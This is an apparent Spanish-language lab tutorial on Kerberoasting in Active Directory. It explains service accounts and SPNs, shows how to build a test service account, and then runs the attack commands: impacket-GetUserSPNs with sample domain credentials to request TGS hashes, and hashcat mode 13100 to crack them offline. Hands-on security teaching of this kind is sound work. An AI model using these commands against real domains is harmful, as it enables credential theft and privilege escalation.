 # Kerberoasting

# ¿Cómo surge un ataque Kerberoating?

---

En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.

Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.

El ataque se lleva a cabo durante el envío del `KRB_TGS_REP` que va desde el KDC al cliente.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

> **Tomemos en cuenta lo siguiente:**

- Las cuentas destinadas para estos servicios suelen tener contraseñas débiles al no ser accedidas constantemente por algún usuario, y para recordar con facilidad se suele evitar el uso de contraseñas muy robustas, por ende son fáciles de crackear.
- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas administrativas.
> 

Viendolo así darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debimos haber tenido acceso a una cuenta de usuario del dominio previamente.**

# Preparación de entorno

---

Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 

- **Por medio al Powershell.**

```powershell
New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
```

![Untitled](images/26bf7301-3d1e-466c-a85f-c4ed1225ef16.png)

En caso de querer borrar la cuenta puedes usar.

```powershell
Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
```

- **Por medio a interfaz gráfica.**

Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   

![Untitled](images/1575c984-f9b7-4f76-bebc-caea943fb568.png)

Luego hacemos clic en el icono de usuario en la barra superior. 

![Untitled](images/2e874867-ee7d-4d35-bc1b-c6acdd62e74f.png)

Indicamos la información correspondiente y damos clic en siguiente.

![Untitled](images/Untitled%201.png)

Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.

![Untitled](images/Untitled%202.png)

Y finalizamos.

![Untitled](images/Untitled%203.png)

Como podemos ver, el usuario se ha creado satisfactoriamente.

![Untitled](images/0d03c82d-3952-4b37-a6c3-b04bf53db8a7.png)

Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.

```powershell
setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
```

![Untitled](images/ce8eefab-5d82-4eec-9a8f-7cf0dafc54f1.png)

# Explotación

---

Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:

```powershell
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
```

Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 

```powershell
impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
```

Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.

![Untitled](images/Untitled%204.png)

Ahora **¡¡CRACKEEMOSLO!!**

# Crackeo de las contraseñas

---

Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.

```bash
hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
```

![Untitled](images/Untitled%205.png)
